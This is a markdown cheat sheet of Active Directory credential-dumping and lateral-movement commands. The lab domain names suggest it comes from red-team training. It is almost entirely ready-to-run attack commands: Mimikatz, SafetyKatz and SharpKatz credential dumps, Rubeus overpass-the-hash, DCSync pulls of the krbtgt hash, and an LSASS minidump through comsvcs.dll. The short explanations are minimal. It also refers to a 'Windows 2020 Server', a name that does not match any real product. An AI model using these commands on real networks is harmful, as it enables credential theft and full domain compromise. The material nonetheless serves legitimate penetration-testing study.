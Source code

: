 # 2 Dumping Credetials

## Lateral Movement \[ Invoke-Mimikatz, SafetyKatz, Rubeus.exe ]

### Dump credentials on a local machine

```powershell
Invoke-Mimikatz -DumpCreds
```

### Dump credentials on multiple remote machines

```powershell
Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```

### OverPass-The-Hash : generate tokens from hashes

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:dollarcorp.moneycorp.local /ntlm:<ntImhash> /run:powershell.exe"'

# Invoke-Mimikatz using AES
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

# SafetyKatz
SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"

# The above commands starts a PowerShell session with a logon type 9 (same as runas /netonly).

# Rubeus.exe
# Below doesn't need elevation
Rubeus.exe asktgt /user:administrator /rc4: /ptt

# Below command needs elevation
Rubeus.exe asktgt /user:administrator /aes256: /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### DCSync Attack

* To extract credentials from the DC without code execution on it, we can use DCSync
* To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for us domain
* By default, Domain Admins privileges are required to run DCSync

```powershell
# Invoke-Mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'

# SafetyKatz
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"

# SafetyKatz Old (For Windows 2020 Server)
SafetyKatz_old.exe "lsadump::dcsync /user:us\krbtgt" "exit"
```

***

## Other ways to extract creds from LSASS

### Invoke-Mimikatz

#### 1. Dump credentials on a local machine using Mimikatz

```powershell
Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

***

### SafetyKatz & SharpKatz

#### 2. Using SafetyKatz (Minidump of lsass and PELoader to run Mimikatz)

```powershell
SafetyKatz.exe -Command "sekurlsa::ekeys" "exit"

# SafetyKatz Old (For Windows 2020 Server)
SafetyKatz_old.exe -Command "sekurlsa::ekeys" "exit"
```

#### 3. Dump credentials Using SharpKatz (C# port of some of Mimikatz functionality)

```powershell
SharpKatz.exe -Command ekeys
```

***

### Dumpert

#### 4. Dump credentials using Dumpert (Direct System Calls and API unhooking)

```powershell
rundll32.exe C:\Dumpert\Outflank-Dumpert.dll,Dump
```

***

### pypykatz

#### 5. Using pypykatz (Mimikatz functionality in Python)

```powershell
pypykatz.exe live lsa
```

***

### comsvcs.dll

#### 6. Using comsvcs.dll

```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump <lsass process ID> C:\Users\Public\lsass.dmp full
```

> Now Extract the creds from lsass dump

```powershell
# Run mimikatz
# set the location of the lsass dump
sekurlsa::minidump C:\AD\Tools\lsass.DMP

# get the debug privs
privilege::debug

# now get the ekeys
sekurlsa::ekeys
```

***

### SharpKatz

#### 7. Using SharpKatz.exe to do DCSync Attack

```powershell
SharpKatz.exe --Command dcsync --User us\krbtgt --Domain us.techcorp.local --DomainController us-dc.us.techcorp.local
```
